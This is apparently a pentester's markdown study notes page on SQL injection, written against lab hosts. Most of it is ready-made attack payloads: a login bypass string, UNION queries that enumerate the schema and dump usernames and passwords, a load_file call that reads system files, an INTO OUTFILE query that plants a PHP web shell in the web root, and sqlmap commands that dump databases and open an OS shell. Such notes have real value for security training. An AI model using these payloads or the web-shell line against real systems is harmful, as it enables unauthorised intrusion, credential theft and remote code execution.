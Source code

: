 ```yaml
---
description: >-
  SQL Injection
title:  SQL Injection             # Add title here
date: 2023-02-11 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, SQL Injection]                     # Change Templates to Writeup
tags: [exploitation, sql injection]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### SQLi Authentication Bypass
A SQL query for a normal login, then, looks like this:
```bash
select * from users where name = 'tom' and password = 'jones';
```

If we control the value being passed in as _$user_, we can subvert the logic of the query by submitting `tom' or 1=1;#` as our username, which creates a query like this:
```bash
select * from users where name = 'tom' or 1=1;#' and password = 'jones';
```
SQLi payload:
```bash
tom' or 1=1;#
```
The pound character (#) is a comment marker in MySQL/MariaDB. It effectively removes the rest of the statement, so we're left with:
```bash
select * from users where name = 'tom' or 1=1;
```
If we do encounter errors when our payload is returning multiple rows, we can instruct the query to return a fixed number of records with the LIMIT statement:
```bash
select * from users where name = 'tom' or 1=1 LIMIT 1;#
```

## SQLite3
### UNION Select:
SQLite3 entrypoint:
```bash
http://192.168.186.52/debug.php?id=%27%27%20union%20select%20id,username,username,password,flag%20from%20users;--%20-
```
We need to know column and table names if we are going to extract data from them. This helps us execute a more surgical data extraction

We can add an _order by_ clause to the query for simple enumeration. This clause tells the database to sort the results of the query by the values in one or more columns. We can use column names or the column index in the query.

Let's submit the following URL:
```bash
http://10.11.0.22/debug.php?id=1 order by 1
```

This query instructs the database to sort the results based on the values in the first column. If there is at least one column in the query, the query is valid and the page will render without errors. We can submit multiple queries, incrementing the _order by_ clause each time until the query generates an error, indicating that the maximum number of columns returned by the query in question has been exceeded. Remember, a query can select all the columns in a table or just a subset of columns. We need to rely on this trial-and-error approach if we do not have access to the source query.

SQLi Payload:
```bash
'' union select id,time,username,password,flag from users;-- -
```
SQLi Payload:
After id=:
```bash
http://10.11.0.22/debug.php?id=1 union select 1,2,3,4,5 from users;-- -
```
SQLi Payload:
```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version
```

### MariaDB
The following examples use commands specific to MariaDB. However, most other databases offer similar functionality with slightly different syntax. Regardless of what database software we target, it's best to understand the platform-specific commands.

For example, to output the version of MariaDB, we can use this URL:

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version
```

This should output a "2" in the name field and the database version number in the comment field:

![Description](/assets/img/Pasted image 20220905185827.png)

Good. It looks like that's working. Next, let's output the current database user with this query:

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, user()
```

This query reveals that the root user is being used for database queries:

![Description](/assets/img/Pasted image 20220905185937.png)

We can enumerate database tables and column structures through the _information_schema_. The information schema stores information about the database, like table and column names. We can use it to get the layout of the database so that we can craft better payloads to extract sensitive data. The query for this would look similar to the following:

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables
```

This should output a lot of data, most of which references information about the default objects in MariaDB. It will also include the table names but we will need to scroll through the output to find them.

![Description](/assets/img/Pasted image 20220905185910.png)

The _users_ table looks particularly interesting. Let’s target that table and retrieve the column names with the following query:

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
```

This outputs all the column names for the _users_ table:
![Description](/assets/img/Pasted image 20220905190646.png)

Armed with this information, we can extract the usernames and passwords from the table. We know that the original query selects three columns and the web page displays columns two and three. If we update our union payload, we can display the usernames in column two and the passwords in column three.

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, username, password from users
```

This will output the database usernames in the name field and passwords in comments field:

![Description](/assets/img/Pasted image 20230331135253.png)

### SQL Injection to Code Execution
Read a file:
```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

Using the _INTO OUTFILE_ function to create a malicious PHP file in the server’s web root. Based on error messages we've already seen, we should know the location of the web root.

```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE ' C:/xampp/htdocs/site2/public/backdoor.php'
```
If this succeeds, the file should be placed in the web root:

![Description](/assets/img/Pasted image 20220905191039.png)

This command produces an error message but this doesn't necessarily mean the file creation was unsuccessful. 

### SQLMAP
Test if a paramater is vulnerable:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id"
```
List databases:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id" --dbs
```
List tables from a specific database:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id" -D <database> --tables
```
List columns from a specific table:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id" -D <database> -T <table> --columns
```
Dump the database:
List tables from a specific database:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id" -D <database> -T <table> --dump
```
Execute commands:
```bash
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```
SQLi with POST parameter:
```bash
sudo sqlmap -u "https://streamio.htb/login.php" --data "username=&password=" -p username --os-command
```
Examples:
[[StreamIO#^6ca422]]

### References 
[PayloadAllTheThings SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)
[SQLite database structure](https://www.sqlite.org/schematab.html)